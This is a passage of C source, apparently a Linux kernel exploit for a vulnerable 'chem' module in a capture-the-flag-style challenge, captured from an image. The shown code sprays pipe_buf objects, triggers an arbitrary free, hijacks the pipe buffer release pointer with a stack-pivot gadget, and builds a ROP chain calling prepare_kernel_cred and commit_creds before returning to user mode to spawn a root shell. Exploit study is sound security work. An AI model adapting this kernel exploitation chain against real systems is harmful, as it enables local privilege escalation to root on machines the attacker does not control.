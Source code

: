 ```c
  puts("[+] done freeing");

  puts("[+] spray pipe_buf");
  size_t pipe_buf_spray = 0x5000;
  int pipe_buf_fds[pipe_buf_spray][2];
  for (int i = 0; i < pipe_buf_spray; i++) {
    pipe(pipe_buf_fds[i]);
  }
  puts("[+] done spraying");

  puts("[+] free attacker to trigger arb free in cg-1k over pipe_buf");
  chem_delete(1);

  size_t push_rsi = kbase + 0x556dc6; // push rsi ; jmp qword ptr [rsi + 0x39]
  size_t pop_rsp = kbase + 0x135dff; // pop rsp ; ret

  char payload_2[1024 - 320];
  memset(payload_2, 0, sizeof(payload_2));
  struct pipe_buf *pb_payload = (struct pipe_buf *) &payload_2;
  pb_payload->ops = cg1k_msgmsg_addr + 0x290;
  struct pipe_buf_ops *ops = (struct pipe_buf_ops *) &payload_2[0x290];
  ops->release =  push_rsi;
  size_t *temp = (size_t *) &(payload_2[0x39]);
  temp[0] = pop_rsp;

  size_t ret = kbase + 0x422; // ret
  size_t pop_rdi = kbase + 0x6d13c5; // pop rdi ; ret
  size_t init_task = kbase + 0x1209e80; // gdb
  size_t prepare_kernel_cred = kbase + 0xa8a30; // gdb
  size_t mov_rdi_rax = kbase + 0x17873f1; // mov rdi, rax ; call r12
  size_t pop_r12_rbp_rbx = kbase + 0x5a164; // pop r12 ; pop rbp ; pop rbx ; ret
  size_t commit_creds = kbase + 0xa8500; // gdb
  size_t swapgs = kbase + 0xa39238; // swapgs ; ret (objdump -d vmlinux | grep swapgs and search thru manually for appropriate one)
  size_t iretq = kbase + 0x3095f; // objdump -d vmlinux | grep iretq and take first result
  size_t swapgs_restore_regs_and_return_to_usermode = kbase + 0xc00eb0; // gdb

  size_t off = 0x0;
  size_t *rop_chain = (size_t *) payload_2;
  rop_chain[off++] = ret;
  rop_chain[off++] = pop_rdi;
  off++;
  rop_chain[off++] = pop_rsp;
  rop_chain[off++] = cg1k_msgmsg_addr + 0x50;
  off += 5;
  rop_chain[off++] = pop_rdi;
  rop_chain[off++] = init_task;
  rop_chain[off++] = prepare_kernel_cred; 
  // because of the new change requiring us to pass in the init_task struct in rdi
  // we don't need to get the return value in rax from prepare_kernel_cred anymore
  // so no need to try and mov rdi, rax
  // rop_chain[off++] = pop_r12_rbp_rbx;
  // rop_chain[off++] = commit_creds;
  // rop_chain[off++] = 0x0;
  // rop_chain[off++] = 0x0;
  // rop_chain[off++] = mov_rdi_rax;
  rop_chain[off++] = commit_creds;
  rop_chain[off++] = swapgs;
  rop_chain[off++] = iretq;
  rop_chain[off++] = get_shell;
  rop_chain[off++] = user_cs;
  rop_chain[off++] = user_rflags;
  rop_chain[off++] = user_sp;
```
